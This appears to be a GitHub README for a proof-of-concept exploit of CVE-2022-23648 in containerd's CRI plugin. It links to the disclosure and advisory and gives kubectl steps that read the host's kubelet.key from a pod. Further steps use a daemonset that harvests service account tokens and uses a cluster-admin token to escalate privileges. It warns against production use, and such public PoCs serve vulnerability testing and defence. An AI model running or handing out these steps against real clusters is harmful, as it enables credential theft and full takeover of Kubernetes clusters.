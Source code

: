 ## PoC for CVE-2022-23648

This is a proof of concept for [@_fel1x](https://twitter.com/_fel1x)'s CVE-2022-23648. Disclosure info [here](https://bugs.chromium.org/p/project-zero/issues/detail?id=2244), CVE info [here](https://github.com/containerd/containerd/security/advisories/GHSA-crp2-qrr5-8pq7) and a blog with some more information and mitigation ideas [here](https://blog.aquasec.com/cve-2022-23648-containerd-cri-plugin). The `Containerfile` has the info. needed, and you can change the target of the VOLUME to try out different paths.

Easiest way to show it working is to use [KinD](https://kind.sigs.k8s.io/docs/user/quick-start/) which has exploitable images.

## Basic Test procedure

Unless the node somehow has a lot of data in `/var/lib/kubelet/pki`, this should be a safe test.

- `kind create cluster --image=kindest/node:v1.21.1`
- `kubectl create -f pod-manifest.yaml`
- `kubectl exec poctest -- ls /var/lib/kubelet/pki/`

And if you get back files including `kubelet.key` it worked :)

## Try to escalate to cluster-admin

NOTE: **Do not attempt this on a production cluster.  A vulnerable Containerd may duplicate a lot of data into this attack pod and exhaust disk space. Also, this will print cluster-admin SA tokens to pod logs which are likely to get sent to a logging destination in plaintext**

This will run a daemonset that attempts to enumerate all Kubernetes service account tokens on the node and print it to the pod's logs if it's found to be a `cluster-admin` token.

- `kubectl apply -f ds.yaml`
- `kubectl --token="$(kubectl logs -l app=poctest | head -1)" auth can-i '*' '*' -A`

If `yes` is printed, congrats, you have a short-lived `cluster-admin` service account token, run: 

- `kubectl logs -l app=poctest | head -1 | awk -F\. '{print $2}' | base64 -d` to see which SA it is

- `kubectl --token="$(kubectl logs -l app=poctest | head -1)" get pods -A`
- `kubectl --token="$(kubectl logs -l app=poctest | head -1)" auth can-i --list`

## Author

- [Rory McCune @raesene](https://twitter.com/raesene)

## Contributors

- [@BradGeesaman](https://twitter.com/bradgeesaman) - Escalation Daemonset
